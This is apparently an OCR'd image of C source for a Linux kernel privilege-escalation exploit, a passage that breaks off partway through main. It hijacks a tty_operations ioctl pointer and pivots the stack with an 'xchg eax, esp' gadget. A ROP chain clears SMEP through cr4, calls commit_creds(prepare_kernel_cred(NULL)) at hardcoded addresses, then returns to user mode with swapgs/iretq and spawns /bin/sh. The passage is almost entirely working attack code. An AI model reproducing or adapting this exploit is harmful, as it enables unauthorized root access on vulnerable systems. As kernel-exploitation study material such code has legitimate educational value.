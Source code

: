 ```c
    void (*send_xchar)(struct tty_struct * tty, char ch);
    int (*tiocmget)(struct tty_struct * tty);
    int (*tiocmset)(struct tty_struct * tty,
		    unsigned int set, unsigned int clear);
    int (*resize)(struct tty_struct * tty, struct winsize * ws);
    int (*set_termiox)(struct tty_struct * tty, struct termiox * tnew);
    int (*get_icount)(struct tty_struct * tty,
		      struct serial_icounter_struct * icount);
    const struct file_operations *proc_fops;
};

#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void *) KERNCALL = (void *)0xffffffff810a1810;
int (*commit_creds)(void *) KERNCALL = (void *)0xffffffff810a1420;

uint64_t xchgeaxesp = 0xffffffff810e81e8;         // 0xffffffff810e81e8 : xchg eax, esp ; ret

void save_status()
{
    asm(
        "mov %cs, tf+8;"
        "pushfq; popq tf+16;"
        "mov %rsp, tf+24;"
        "mov %ss, tf+32;"
    );
    // puts("status saved!");
}

void get_shell()
{
    system("/bin/sh");
}

int get_root()
{
    commit_creds(prepare_kernel_cred(NULL));
    return 0;
}

int main()
{
    save_status();

    uint64_t rop[30] = {
        0xffffffff810d238d,         // pop rdi ; ret
        0x6f0,
        0xffffffff81004d80,         // mov cr4, rdi ; pop rbp ; ret
        0,
        get_root,
        0xffffffff81063694,         // swapgs ; pop rbp ; ret
        0,
        0xffffffff814ee0a4,         // opcode: 48 cf iretq
    };
    tf.rip = get_shell;
    *(struct trap_frame*)(&rop[8]) = tf;

    uint64_t base  = xchgeaxesp & 0xfffff000;
    mmap(base, 0x3000, PROT_EXEC|PROT_WRITE|PROT_READ, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    memcpy(xchgeaxesp&0xffffffff, rop, sizeof(rop));

    struct tty_operations tty_ops = {0};
    tty_ops.ioctl = xchgeaxesp;
    uint64_t fake_tty[4] = {0};
```